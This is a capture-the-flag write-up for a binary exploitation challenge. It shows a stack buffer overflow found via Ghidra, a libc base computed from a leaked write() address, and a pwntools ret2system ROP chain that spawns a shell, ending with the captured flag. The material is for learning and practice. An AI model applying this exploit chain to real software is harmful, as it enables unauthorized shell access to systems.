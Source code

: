 # challenge Name: Prog
![Poj_challenge](../images/poj.png)


In this challenge, we are given a binary file with a dinamyc linker/loader

1. # first step: let analyse the prog security
`` pwn checkseck poj``
    ![Poj_challenge](../images/checksec_poj.png)
    ## No cannary found. 

 not that we need libc.so.6 file in the current directory in order to run pob binary

 2. # second step: understand how the prog work

    ![Poj_challenge](../images/poj_exec1.png)
     we have memory leak of write address

    # reverse engineering the program
after decompiled the prog with ghidra, we can know that the main function  print write address and call vuln_func.

vuln function read 0x100 byte on local array of length 64 so we have a BOF.

# main function
    ![main_function](../images/main_func_poj.png)

# vuln_function
    ![vuln_function](../images/vuln_func_poj.png)


3. # exploit the BOF:
    as the prog don't have Cannary and we also have address leak,   we can  exploit  the buffer overflow to make ``ret2system`` 
    1. found offset
    ![found bof offse](../images/found_offset1_poj.png)
    ![found bof offset](../images/found_offset2_poj.png)
    
    2. found useful function address /bin/sh string and gdget  on the libc 
    ```
 # libc.so.6 write = 0xff4d0
libc_write = 0xff4d0  # readelf -s libc.so.6 | grep write 
libc_system  = 0x000000000004dab0  # readelf -s libc.so.6 | grep system 
libc_bin_sh = 0x197e34 # strings -t x libc.so.6 | grep "/bin/sh"
pop_rdi_offset =  0x0000000000028215 # found with ropper 
ret_offset =  0x00000000000f35d8 # found with ropper

# Now calculate the PIEBASE
libc_addr = leaked_addr - libc_write 
sys_addr = libc_addr + libc_system
bin_sh = libc_addr + libc_bin_sh
pop_rdi = pop_rdi_offset + libc_addr
ret_addr = ret_offset + libc_addr

payload = flat({
    offset:[
        pop_rdi,
        bin_sh,
        ret_addr,
        sys_addr
        ]
})
```

# see the complet exploit:
```
python3 poj_exploi.py  REMOTE challenge.bugpwn.com 1003
b
```
    ![found bof offset](../images/exploit_poj.png)
and we get the flag: battleCTF{Libc_J0P_b4s1c_000_bc8a769d91ae062911c32829608e7d547a3f54bd18c7a7c2f5cc52bd} 

    
@Top0n3
